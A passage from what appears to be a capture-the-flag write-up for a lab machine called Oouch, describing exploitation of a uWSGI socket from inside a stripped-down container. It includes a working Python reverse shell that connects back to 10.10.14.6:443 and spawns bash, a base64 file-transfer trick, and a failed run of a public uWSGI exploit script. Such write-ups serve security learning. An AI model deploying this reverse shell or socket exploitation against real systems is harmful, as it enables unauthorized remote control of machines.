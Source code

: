 I’ll also dig into the code itself, but for the next step.

### Exploit

#### Vulnerability

Searching around for `uwsgi exploits` I found [this GitHub](https://github.com/wofeiwo/webcgi-exploits). It lists a Chinese website with a POC for exploiting uWSGI. The basic idea if that if I can write to the uWSGI socket, I can get code execution.

#### Container Limitations

This container is stripped down - It has no `curl`, no `nc`, no `ping`, no `wget`, no text editors (`vi`, `vim`, `nano`, `pico`, `ed`). It does have Python, which is useful. I moved files by base64 encoding them on my host (`base64 -w0 [filename]`), copying the output, and then running `echo "[paste]" | base64 -d > [desired file]`. I could have also used `scp` twice, first to Oouch, then to the container.

To get a shell, I turned a typical Python reverse shell into a `.py` file, and moved it to the container just like above.

```

#!/usr/bin/env python

import os
import pty
import socket
import subprocess

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.6",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")

```

I tested it as my current user to verify that it could connect back to my Kali box, and it could.

#### Get RCE

I downloaded `uwsgi_exp.py` from GitHub, uploaded it, and ran it, but it fails.

```

qtc@aeb4525789d8:~$ python /dev/shm/.d.py -m unix -u /tmp/uwsgi.socket -c 'id > /tmp/d'
[*]Sending payload.
Traceback (most recent call last):
  File ".t.py", line 146, in <module>
    main()
  File ".t.py", line 143, in main
    print(curl(args.mode.lower(), args.uwsgi_addr, payload, '/testapp'))
  File ".t.py", line 110, in curl
    return ask_uwsgi(addr_and_port, mode, var)
  File ".t.py", line 77, in ask_uwsgi
    s.send(pack_uwsgi_vars(var) + body.encode('utf8'))
  File ".t.py", line 26, in pack_uwsgi_vars
    pk += sz(k) + k.encode('utf8') + sz(v) + v.encode('utf8')
  File ".t.py", line 18, in sz
    if sys.version_info[0] == 3: import bytes
ModuleNotFoundError: No module named 'bytes'

```

